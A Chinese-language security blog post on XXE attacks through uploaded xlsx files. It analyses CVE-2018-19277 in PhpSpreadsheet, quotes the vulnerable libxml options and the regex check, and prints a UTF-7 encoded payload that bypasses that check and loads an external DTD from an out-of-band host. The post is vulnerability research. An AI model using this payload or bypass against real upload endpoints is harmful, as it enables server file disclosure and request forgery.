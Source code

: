 # xxe实践探索

## 背景
之前看过一篇讲利用xlsx文件构造xxe payload的博客
https://www.4armed.com/blog/exploiting-xxe-with-excel/
先知也有翻译。当时看完博客，按照复现步骤构造了payload后找了个数字产品的excel上传点测了一下没成功就放弃折腾了。最近又看到几个可以上传xlsx的网站，想起来之前的经历，决定重新看看这个问题。

## OOXML
OOXML是Office Open XML的简称，一个xlsx文件就是一堆xml文件的压缩包，比如我新建1个normal.xlsx。改了个sheet名，1行1列输了一串a。
![-w499](media/15552288460409/15553096661880.jpg)  

解压xlsx得到一堆xml文件。
![-w369](media/15552288460409/15553098644527.jpg)  

解压后的结构
![-w274](media/15552288460409/15553101464498.jpg)  

aaaa...
![-w1432](media/15552288460409/15553102717304.jpg)  

test-sheet1
![-w1436](media/15552288460409/15553104462469.jpg)  

直接在xml中添加DOCTYPE再重新压缩在office2007之后是打不开的，因为office2007开始禁止了DTD。但是作为服务端解析来说，office能否打开无所谓，最终能否成功执行xxe只和各编程语言中负责解析xlsx的库相关。

## 不同编程语言的解析行为
* php
php自带xml解析库libxml，自从2.9.0以后提供了一个函数禁止解析外部实体，但是需要显示声明
```
libxml_disable_entity_loader(true)
```
在其被禁止的情况下如何突破呢？利用反序列化漏洞构造一个初始化打开外部实体解析开关的对象可以绕过，但是这偏题了。xlsx文件是一系列xml的压缩包，解析xlsx，本质上还是解析xml，php解析excel一般用  
https://github.com/PHPOffice/PHPExcel  
后来更名为  
https://github.com/PHPOffice/PhpSpreadsheet  
2018年11月13日爆出了编号为CVE-2018-19277的xxe漏洞，这个漏洞利用了编码utf-7绕过了正则的安全检查，漏洞分析可以参考安全客这篇文章，虽然它有很多问题  
https://www.anquanke.com/post/id/170068  
编码后的payload大概长这样，这是其中一处错误，实际上utf-7编码后置改变了开头的<!，DOCTYPE并不会变
![-w851](media/15552288460409/15553141607574.jpg)
但是这个漏洞到底怎么产生的？按照我之前的理解，php解析xml时一般都会禁止外部实体解析。通过分析文章可以看到漏洞最终是因为simplexml的simplexml_load_file造成的。通过《php_xxe》的测试结果，只有在simplexml_load_file的第3个参数是《php_xxe》的测试结果显示的11个危险参数之一时造成http payload的执行，下载漏洞版本1.5.0，看simplexml_load_file执行的位置

```
$xml = simplexml_load_string($this->securityScan($gFileData), 'SimpleXMLElement', Settings::getLibXmlLoaderOptions());
```

第3个参数是Settings::getLibXmlLoaderOptions()
```
/**
 * Get default options for libxml loader.
 * Defaults to LIBXML_DTDLOAD | LIBXML_DTDATTR when not set explicitly.
 *
 * @return int Default options for libxml loader
 */
public static function getLibXmlLoaderOptions()
{
    if (self::$libXmlLoaderOptions === null && defined('LIBXML_DTDLOAD')) {
        self::setLibXmlLoaderOptions(LIBXML_DTDLOAD | LIBXML_DTDATTR);
    } elseif (self::$libXmlLoaderOptions === null) {
        self::$libXmlLoaderOptions = true;
    }

    return self::$libXmlLoaderOptions;
}
```

第1个if条件满足（与逻辑的第2项为真是因为LIBXML_DTDLOAD是libxml的内置常量）。
这个漏洞让我学到的第2点是xml头的属性，作者通过encoding属性绕过了漏洞产品本身的正则检测。xml头可以定义成
```
<?xml version="1.0"?>
```
也可以定义成
```
<?xml version="1.0" encoding="UTF-8"?>
```
还可以定义成
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
```

构造utf-7编码的payload
```
$str1 = mb_convert_encoding($str, "UTF-7");
```
输出结果
```
+ADwAIQ-DOCTYPE xmlrootname +AFsAPAAh-ENTITY +ACU aaa SYSTEM +ACI-http://xxxxx.ceye.io/lalala.dtd+ACIAPgAl-aaa+ADsAJQ-ccc+ADsAJQ-ddd+ADsAXQA+-
```
这已经够绕过代码本身的检测了，因为代码本身检测的是`<!DOCTYPE`
```
    public function securityScan($xml)
    {
        $pattern = '/\\0?' . implode('\\0?', str_split('<!DOCTYPE')) . '\\0?/';
        if (preg_match($pattern, $xml)) {
            throw new Exception('Detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
        }

        return $xml;
    }
```
之后通过漏洞作者和开发者的对话了解到另一个之前忽略的问题：libxml_disable_entity_loader(true)是在大概php5.2以后才提供的，php7下可以直接禁止，但是php5中考虑到兼容性的问题，很难直接禁掉，这个时候就只能依靠正则了。开发者的修复思路是检查编码类型，如果不是utf-8通通转化为utf-8再检查正则。其实如果不转化直接依靠正则呢？只检查DOCTYPE应该是没有问题的，因为utf-16也绕不过，但是还得看解析的时候支持哪些编码。
  


* java
解析库：apache poi, CVE-2016-5000  
   
* python
解析库：openpyxl, CVE-2017-5992	

* golang
golang本身自带的xml库不解析DTD，参考
https://stackoverflow.com/questions/28107960/how-can-i-force-gos-standard-xml-parser-to-read-dtd-entities
解析库：tealeg/xlsx
360EntSecGroup-Skylar/excelize



## 拓展
https://github.com/BuffaloWill/oxml_xxe
可以作为xml payload载荷的除了OOXML，还有以上提到的几种
